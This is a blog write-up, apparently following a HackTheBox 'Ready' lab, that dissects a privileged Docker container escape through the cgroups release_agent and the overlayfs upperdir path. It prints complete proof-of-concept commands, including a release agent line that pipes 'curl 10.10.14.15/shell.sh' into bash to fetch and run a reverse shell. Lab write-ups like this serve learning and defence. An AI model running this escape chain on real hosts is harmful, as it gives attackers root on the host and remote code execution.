# Digging into cgroups Escape

[ctf](/tags#ctf ) [hackthebox](/tags#hackthebox ) [htb-ready](/tags#htb-ready
) [docker](/tags#docker ) [container](/tags#container )
[cgroups](/tags#cgroups ) [escape](/tags#escape ) [overlayfs](/tags#overlayfs
) [release-agent](/tags#release-agent )  
  
May 17, 2021

  * [HTB: Ready](/2021/05/15/htb-ready.html)
  * Digging into cgroups

![cascade](https://0xdfimages.gitlab.io/img/ready-cgroups-cover.png)

The method I used in Ready to get code execution on the host system from a
docker container running as privileged was a series of bash commands that
didn’t make any sense on first glance. I wanted to dive into them and see what
was happening under the hood.

## Background

### POCs

The privileged Docker container escape POC I used looked like this:

    
    
    root@gitlab:~# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
    root@gitlab:~# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
    root@gitlab:~# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    root@gitlab:~# echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.14.15/shell.sh | bash' >/c;
    root@gitlab:~# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
    

To explain how this works, I’ll use a slightly different version of the POC
(from the same article) because it’s a bit easier to follow:

    
    
    mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
    echo 1 > /tmp/cgrp/x/notify_on_release
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo "$host_path/cmd" > /tmp/cgrp/release_agent
    echo '#!/bin/sh' > /cmd
    echo "curl 10.10.14.15/shell.sh | bash" >> /cmd
    chmod a+x /cmd
    sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"
    

Both POCs take the same steps:

  1. Find or create an access to the RDMA cgroup controller.
  2. Create a new cgroup within that controller.
  3. Register `notify_on_release` for that cgroup, and set the release agent to a file accessible via both the container and host.
  4. Start a quickly completing process within that cgroup that triggers execution of the release agent on termination.

### cgroups

The first thing to understand is the idea of
[cgroups](https://en.wikipedia.org/wiki/Cgroups). It’s a Linux kernel feature
that isolates CPU (and other resource) usage to a collection of processes
within the cgroup. [Julia Evans](https://twitter.com/b0rk) has a zine
describing [cgroups](https://twitter.com/b0rk/status/1214341831049252870):

[![Image](https://0xdfimages.gitlab.io/img/ENo1dPRWsAA1CQE.png)_Click for full
size image_](https://0xdfimages.gitlab.io/img/ENo1dPRWsAA1CQE.png)

cgroups are not exclusive to Docker, but they are used by Docker. [This neat
Medium post on Docker
Internals](https://medium.com/@BeNitinAgarwal/understanding-the-docker-
internals-7ccb052ce9fe) goes into a lot more detail about how Docker uses
cgroups for resource allocation.

### overlayfs

The other concept that comes into play here is
[overlayfs](https://en.wikipedia.org/wiki/OverlayFS), a “union mount
filesystem” implementation in Linux. In overlayfs, there are two directories,
upper and lower, that are merged to create another directory that represents
the combination of the two. [Julia Evans](https://twitter.com/b0rk) has
another really helpful zine for overlayfs (she’s such a good resource!):

[![img](https://0xdfimages.gitlab.io/img/overlay.jpeg)_Click for full size
image_](https://0xdfimages.gitlab.io/img/overlay.jpeg)

Julia has a [post](https://jvns.ca/blog/2019/11/18/how-containers-work--
overlayfs/) that goes into more detail with examples as well. The idea is that
you can mount two file paths such that they create a third merged result. For
example, the lower might be a container base image, and the upper might be
changes made inside the container. In the merged result, if the file exists in
both upper and lower, it shows the one from upper. If it doesn’t exist in
upper, it shows the one from lower.

What’s important to know here is that by leaking the host’s filepath to the
upper directory used for the docker container, I can write something in the
container, and know where it will be on the host.

## Steps

### Find / Create cgroup Controller

The first two commands (of three) in the first line in the POC is creating a
directory, and mounting it as an RDMA cgroup controller (`mount -t cgroup -o
rdma`):

    
    
    mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
    

It uses the RDMA cgroup, but others would works as well (there’s a list in the
[cgroups man page](https://man7.org/linux/man-pages/man7/cgroups.7.html)). In
the Trail of Bits post they show an error that comes up when there is no RDMA
cgroup, and suggest just changing `rdma` to `memory` to continue in another
cgroup.

The original POC finds an existing mount of the rdma cgroup controller using a
somewhat obfuscated `ls` command:

    
    
    root@gitlab:~# dirname $(ls -x /s*/fs/c*/*/r* |head -n1)    
    /sys/fs/cgroup/rdma
    

cgroup controllers are global resources, and mounting it again here inside the
container gives access to the same controller in the host. Changes made here
will be reflected in the host’s RDMA controller. Without being privileged, a
container won’t have access to this.

### Create New cgroup

Next, each POC creates a cgroup (directory) in that mount, `x` (or `w` in the
original POC):

    
    
    mkdir /tmp/cgrp/x
    

or

    
    
    mkdir -p $d/w;
    

On just creating the directory, several files are created:

    
    
    root@gitlab:~# ls /tmp/cgrp/x/
    cgroup.clone_children  notify_on_release  rdma.max
    cgroup.procs           rdma.current       tasks
    

### Configure Release

The next command is to write a 1 to `notifiy_on_release`, which [enables
cgroup notifications on
release](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt):

>
>     If the notify_on_release flag is enabled (1) in a cgroup, then
>     whenever the last task in the cgroup leaves (exits or attaches to
>     some other cgroup) and the last child cgroup of that cgroup
>     is removed, then the kernel runs the command specified by the contents
>     of the "release_agent" file in that hierarchy's root directory,
>     supplying the pathname (relative to the mount point of the cgroup
>     file system) of the abandoned cgroup.
>  

In each POC:

    
    
    echo 1 > /tmp/cgrp/x/notify_on_release
    

or

    
    
    echo 1 >$d/w/notify_on_release
    

The majority of the remaining commands are dedicated to setting the release
agent. This is what will get run on the release notification. First, the POC
needs to find the mapping so that the host can reference a file written in the
container. `/etc/mtab` has a list of all the mount points for the system, to
include the overlayfs mount:

    
    
    root@gitlab:~# grep upper /etc/mtab   
    overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/GIXQ4D2FJ63I5OGALTCGDBK6KT:/var/lib/docker/overlay2/l/PZB5MARGIAOF6N5AAJNTVUFS52:/var/lib/docker/overlay2/l/4KSUGTOLFYSBJFJQH2NUGVL54R:/var/lib/docker/overlay2/l/PJ4IKL6MDRM2ZSGFRAXCVHVLUR:/var/lib/docker/overlay2/l/XLLFVBBMKEEE672BOIVTSZ5XQZ:/var/lib/docker/overlay2/l/33JTQXWWPTNINADNR6R3YM47KY:/var/lib/docker/overlay2/l/XG5BUSKVZNINSBJD2J7MMLU5A3:/var/lib/docker/overlay2/l/ZI5Y7RO6WUTDK3DQVTUTOA2ZWI:/var/lib/docker/overlay2/l/SRZJCUXAPFOW35HRDPW7OHQWXN:/var/lib/docker/overlay2/l/SLR2WWC4VRYMZRPZ6EHZQSLNYS:/var/lib/docker/overlay2/l/SJBEI24D42KKTO5Z54GMKQPPXO,upperdir=/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff,workdir=/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/work,xino=off 0 0
    

The next command in the POC uses `sed` to get just the string that is the
`upperdir` path:

    
    
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    

Running that shows where on the host filesystem the container files are:

    
    
    root@gitlab:~# sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
    /var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff
    

As an experiment, I’ll create a file in the root home dir on the container:

    
    
    root@gitlab:~# echo "0xdf was here" > 0xdf 
    

With an SSH shell as root on the host, I can see that file shows up in the
`upperdir`:

    
    
    root@ready:/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff# ls
    bin  etc  home  opt  root  root_pass  run  tmp  usr  var
    root@ready:/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff# cd root/
    root@ready:/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff/root# ls
    0xdf
    root@ready:/var/lib/docker/overlay2/72682da51e1ec80c609bc446d141ff5afed2037d1bdf2810550ecff7fb552e68/diff/root# cat 0xdf 
    0xdf was here
    

This helps because now I can write the release agent script (a simple reverse
shell) in the container, and then call it from the host. That’s what the next
few commands do. Set the file from the host’s perspective as the
`release_agent`:

    
    
    echo "$host_path/cmd" > /tmp/cgrp/release_agent
    

Write the reverse shell from within the container:

    
    
    echo '#!/bin/sh' > /cmd
    echo "curl 10.10.14.15/shell.sh | bash" >> /cmd
    chmod a+x /cmd
    

### Trigger Release

Now everything is set up so that when a process within this new cgroup
terminates, it will execute the reverse shell. All I need to do now is start a
process within that cgroup and then let it finish. The POC makes use of a neat
trick to do that. It starts an `echo` process, and has that process output the
PID of that process into the `cgroups.procs` file:

    
    
    sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"
    

This leads to the PID being in that file, and then that `echo` completing,
which terminates the process. The system sees that PID terminate, and finds
it’s PID in the `x` cgroup. It removes that PID from the `cgroups.procs` file,
and triggers the release agent.

[« HTB: Ready](/2021/05/15/htb-ready.html)

[](/2021/05/17/digging-into-cgroups.html)

